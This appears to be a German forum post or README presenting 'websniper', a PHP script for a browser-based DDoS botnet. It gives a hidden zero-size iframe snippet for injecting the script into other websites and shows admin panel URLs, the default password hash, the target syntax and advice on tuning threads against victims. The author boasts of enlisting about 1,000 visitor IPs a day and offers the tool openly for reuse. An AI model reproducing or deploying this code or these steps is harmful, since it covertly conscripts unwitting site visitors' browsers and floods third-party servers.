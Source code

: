 websniper
=========
hier mal ein script fuer schwebende botnetze. aehnlich wie man es von xss shells kennt, nur halt fuer ddos.
man kann dieses script bei anderen websiten einbinden und folglich dessen besucher fuer ddos missbrauchen.
es arbeitet mit dem img onload eventhandler und dem laden einer xml datei. beides zeigt, bei dem richtigen
browser, keine ladeaktion an, wenn also ein ddos angriff gestartet wird, dann zeigt der browser des opfers
nicht an das gerade etwas laed, es laeuft also komplett im hintergrund. welche methode bei welchem browser
eingesetzt wird entscheidet natuerlich das script selbst und individuell.

getestet hab ichs mit:
internet explorer
opera
firefox
safari
rekonq
google chrome

![](http://s7.directupload.net/images/131219/5zrsum9y.png)
das script hab ich speziell fuer ddos angriffe gebastelt, allerdings nutz ichs imo fuer ganz andere dinge XD
der eigentliche sinn des scripts war es heraus zu bekommen, ob man mit einem schwebenden botnet auch mit
halbwegs normalen besucherzahlen etwas anfangen kann. das ergebenis war das ich mir ein botnet mit ~1k ip's
pro tag aufgebaut hab... dazu haben schon wenige seiten (mit iframe versehen) ausgereicht. der traffic den man
bei einem ddos angriff mittels der website besucher verursachen konnte war ebenfalls vollkommen ausreichend Smile

dementsprechend pub ich das script jetzt einfach mal. vllt. brauchts ja jemand oder kann was damit anfangen...

eingefuegt wird das script mittels des getparameters "z". bsp:
Code:
```
http://website/web-sniper/web-sniper.php?z
```
code bsp:
Code:
```
<iframe src="http://website/web-sniper/web-sniper.php?z" width="0" height="0" style="opacity: 0;"></iframe>
```
in den adminpanel gelangt man wiederum ganz einfach mit dem bloßen aufruf der website, also:
Code:
```
http://website/web-sniper/web-sniper.php
```
oder auch mit dem getparam "root":
Code:
```
http://website/web-sniper/web-sniper.php?root
```
das standart passwort ist "test123". wer dieses aendern moechte kann das an folgender codezeile machen (md5):
Code:
```
$password="cc03e747a6afbbcbf8be7668acfebee5"; //standart: test123
```
moechte man ein ziel setzen dann gibt man dieses nicht direkt als normalen link sondern ohne http und mit angabe eines ports an.
also z.b. anstatt:
Code:
```
http://unnex.de/index.php?kontakt
```
setzt man:
Code:
```
unnex.de:80/index.php?kontakt
```
einen ordnerpfad muss man nicht angeben, kann man aber. manchmal kann es stark zur belastung des ziels beitragen einen link zu einer großen datei oder z.b. suchanfrage an zu geben...

neben dem input fuer die addr findet sich eine weiteres. in diesem legt man fest wieviele threads bzw. frames pro aufruf genutzt werden sollen. frame allein ist schon ein uebler angriff. jeder weitere waere vereinfacht gesagt, so als wuerde das opfer die seite nochmal und nochmal und nochmal usw... oeffnen. hier sollte man die grenzen seiner vics also schon etwas beruecksichtigen ;-)

...die reloadzeit fuer die opfer ist im standard auf 10min gesetzt.
